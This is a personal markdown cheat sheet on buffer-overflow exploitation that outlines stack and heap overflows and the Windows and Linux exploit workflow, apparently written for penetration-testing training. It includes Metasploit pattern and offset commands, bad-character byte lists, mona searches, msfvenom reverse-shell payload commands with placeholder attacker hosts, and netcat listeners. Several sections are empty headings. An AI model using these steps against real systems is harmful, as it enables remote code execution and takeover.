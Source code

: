 # buffer overflow

![Image result for buffer overflow](https://dpsvdv74uwwos.cloudfront.net/statics/img/ogimage/buffer-overflow-attacks.png)

[TOC]



## types

### stack based

A technically inclined user may exploit stack-based buffer overflows to manipulate the program to their advantage in one of several ways:

- By overwriting a local variable that is located near the vulnerable buffer on the stack, in order to change the behavior of the program
- By overwriting the return address in a [stack frame](https://en.wikipedia.org/wiki/Stack_frame). Once the function returns, execution will resume at the return address as specified by the attacker - usually a user-input filled buffer
- By overwriting a function pointer[[1\]](https://en.wikipedia.org/wiki/Buffer_overflow#cite_note-1) or [exception handler](https://en.wikipedia.org/wiki/Exception_handler), which is subsequently executed
- By overwriting a local variable (or pointer) of a different stack frame, which will be used by the function which owns that frame later  

![Image result for stack based  buffer overflow](https://payatu.com/wp-content/uploads/2018/01/c_prog_mem_layout.jpg)

### heap based

A buffer overflow occurring in the heap data area is referred to as a heap overflow and is exploitable in a manner different from that of stack-based overflows. Memory on the heap is dynamically allocated by the application at run-time and typically contains program data. Exploitation is performed by corrupting this data in specific ways to cause the application to overwrite internal structures such as linked list pointers. The canonical heap overflow technique overwrites dynamic memory allocation linkage (such as [malloc](https://en.wikipedia.org/wiki/Malloc) meta data) and uses the resulting pointer exchange to overwrite a program function pointer



<img src="https://www.researchgate.net/profile/Roshan_Ragel/publication/230559751/figure/fig6/AS:669389712027653@1536606352473/Heap-based-Buffer-Overflow-Attack.png" alt="Image result for heap based buffer overflow" style="zoom:50%;" />

## exploitation

### windows buffer overflow

#### discovering vulnerablity 

we discover a application is vulnerable to buffer overflow  by fuzzing the application with a fuzzer

### introduction to immunity debuuger

#### adding the application to  imunnity debugger

####  

#### fuzzing the application 

a fuzzer  fuzzes the application with in an random incremental order such that the application stops when it detects a crash or timeout from the application we interact

#### replicating the crash 

we replicate crash by sending the appliation with value at which it crashed 

#### controlling the EIP

##### locating eip  by creating unique pattern

```
msf-pattern_create -h
msf-pattern_create -l length of buffer

```



##### locating the offset address of eip

```
msf-pattern_offset -h
msf-pattern_offset -l lengthofbuffer -q stringfromeip
```



#### locating space for shell code

##### checking for bad charcters

```
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

![](C:\Users\bhuva\Downloads\download.png)

##### redirecting the execution flow

##### finding the return address

 ##### introduction to mona

```
!mona
```



##### identifying the module with out aslr,dep,seh

##### nasm shell

```
msf-nasm_shell

nasm>jmp esp

!mona 
!mona modules 
!mona find -s "instruction " -m "module to search"

```



#### genrating shellcode

```
msfvenom -p windows/shell_reverse_tcp lhost=attackerip lport=attackerport -f fileformat -e x86/shikata_ga_nai -b "badcharcters"
```



#### optimising the shellcode



#### getting  reverse shell

```
nc -nlvp port to connect
```



#### improving the exploit







### linux buffer overflow

#### discovering the vulnerablity

### replicating the crash

### introduction to the edb(evans debugger)

```
edb
```



##### adding the applcation to the edb

```

```



### controlling the EIP

#### locating the eip using unique pattern 

```
msf-pattern_create -l string
```



#### locating the offset using the unique pattern

```
msf-pattern_offset -q string
```



### locating Space for shell code



#### geting opcodes

```
msf-nasm_shell
nasm>
nasmm>
```



### checking for bad charcters

```
\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

![](C:\Users\bhuva\Downloads\download.png)

### finding a return address

```

```



### genrating shellcode

```
msfvenom -p linux/x86/shell_reverse_tcp lhost=ip of attacker lport=port to connect -b "badcharcters here" -f fileformat -o outputname
```



### modfying shellcode

```
msfvenom -p linux/x86/shell_reverse_tcp lhost=ip of attacker lport=port to connect -b "badcharcters here" -f fileformat -v shellcode
```



### getting shell

```
nc -nlvp port 
```





